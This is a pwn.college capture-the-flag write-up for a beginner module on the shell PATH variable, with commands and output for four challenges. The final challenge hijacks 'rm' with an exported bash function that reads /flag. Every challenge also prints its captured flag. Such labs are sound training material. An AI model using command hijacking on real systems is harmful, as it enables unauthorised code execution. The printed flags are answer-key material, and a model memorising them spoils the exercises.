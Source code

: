 # Module 12: Pondering PATH
## The PATH Variable

**Task:** Disrupt the operation of the `/challenge/run` program by making it unable to find the `rm` command

**Process:**  Set the `PATH` variable to an empty string before running `/challenge/run`

**Code:**</br>
```bash
hacker@path~the-path-variable:~$ export PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{oL_4QZQP3lpGObT1a69mm0mxGkW.dZzNwUDLwkTN0czW}
```


**Flag:** `pwn.college{oL_4QZQP3lpGObT1a69mm0mxGkW.dZzNwUDLwkTN0czW}`
</br>

## Setting PATH

**Task:** Add the `/challenge/more_commands` directory to the `PATH` so that `/challenge/run` can find the `win` command

**Process:** Set the `PATH` variable to the `/challenge/more_commands` directory before running `/challenge/run`

**Code:**</br>
```bash
hacker@path~setting-path:~$ export PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{4nrnvfjG7k3n-w6Fai5kikQJM2o.dVzNyUDLwkTN0czW}
```


**Flag:** `pwn.college{4nrnvfjG7k3n-w6Fai5kikQJM2o.dVzNyUDLwkTN0czW}`
</br>

## Adding Commands

**Task:** Create a _shell script_ called `win` that reads the flag file and add its location to the `PATH`, then run `/challenge/run`

**Process:** Create a `win.sh` script, make it executable, and set the `PATH` to include the script's directory before running `/challenge/run`

**Code:**</br>
```bash
hacker@path~adding-commands:~$ mkdir scripts
hacker@path~adding-commands:~$ printf "\ncat /flag" > scripts/win
hacker@path~adding-commands:~$ chmod u+x scripts/win
hacker@path~adding-commands:~$ export PATH=$PATH:~/scripts/
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{4ZYPzqjtTRWqxqDGGHr1VlQ2Was.dZzNyUDLwkTN0czW}
```


**Flag:** `pwn.college{4ZYPzqjtTRWqxqDGGHr1VlQ2Was.dZzNyUDLwkTN0czW}`
</br>

## Hijacking Commands

**Task:** Disrupt the operation of the `/challenge/run` program by creating a malicious command that it will execute

**Process:** Create an `rm.sh` script, make it executable, and set the `PATH` to include the script's directory before running `/challenge/run`

**Code:**</br>
```bash
hacker@path~hijacking-commands:~$ rm() { cat /flag; }
hacker@path~hijacking-commands:~$ export -f rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /usr/bin/rm. Executing!
pwn.college{wULuq4_TNH6xP9c-wK_zTTZC5RV.ddzNyUDLwkTN0czW}
```


**Flag:** `pwn.college{wULuq4_TNH6xP9c-wK_zTTZC5RV.ddzNyUDLwkTN0czW}`
</br>
